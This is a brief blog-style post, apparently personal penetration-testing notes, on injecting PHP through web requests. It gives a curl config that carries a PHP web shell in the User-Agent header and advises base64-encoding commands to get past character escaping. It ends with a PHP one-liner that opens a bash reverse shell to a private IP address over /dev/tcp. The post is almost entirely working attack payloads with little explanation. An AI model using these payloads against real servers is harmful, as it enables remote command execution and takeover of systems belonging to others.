 ```yaml
---
layout: post
author: redle
---
```


# Some leasons learned...

## PHP Injection:
### Use User Agent to avoid scape ' or "
> curl -K file
> file:
> user-agent = "<?php system($_GET['cmd']) ?>"

### Base64 avoiding special chars:
> Use base64 to send the command, this avoid problem with special chas as : ',",;, and eliminate the scape of these chars.

### PHP Shell:
> <?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.32/9090 0>&1'\");?>
